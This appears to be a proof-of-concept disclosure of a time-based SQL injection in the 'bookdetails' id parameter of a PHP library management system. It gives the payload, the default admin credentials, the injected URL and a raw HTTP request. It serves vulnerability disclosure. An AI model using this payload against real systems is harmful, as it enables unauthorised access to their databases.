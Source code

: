 #### Title: Library Management System with QR code Attendance 1.0 SQL Injection
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 27.06.2022
#### Vendor: https://www.sourcecodester.com/users/kingbhob02
#### Software: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/POC.md

#### Description：
##### The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Library Management System with QR code Attendance does not filter the content correctly at the "bookdetails" id parameter, resulting in the generation of SQL injection.

#### Payload used:
`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`

#### POC

1.  Login into the CMS.
Admin Default Access:

Username: admin

Password: admin


2. http://localhost/LMS/librarian/bookdetails.php?id=191


3. Put sleep(5) payload (`' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`)

4. `http://localhost:80/LMS/librarian/bookdetails.php?id=' AND (SELECT 9198 FROM (SELECT(SLEEP(5)))iqZA)-- PbtB`



5. code
```
GET /LMS/librarian/bookdetails.php?id=%27%20AND%20(SELECT%209198%20FROM%20(SELECT(SLEEP(5)))iqZA)--%20PbtB HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0r78mi76ub6k55p8mkce7f4pco
Connection: close
```

![image](https://github.com/CyberThoth/CVE/blob/e2ae7b7a85ec722ee15a2b72add0d54dd8d0e4a2/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/1.png)

#### line 111 of bookdetails.php invokes a SQL query built with input that comes from an untrusted source. This call could allow an attacker to modify the statement's meaning or to execute arbitrary SQL commands
![image](https://github.com/CyberThoth/CVE/blob/e2ae7b7a85ec722ee15a2b72add0d54dd8d0e4a2/CVE/Library%20Management%20System%20with%20QR%20code%20Attendance/Sql%20Injection/2.png)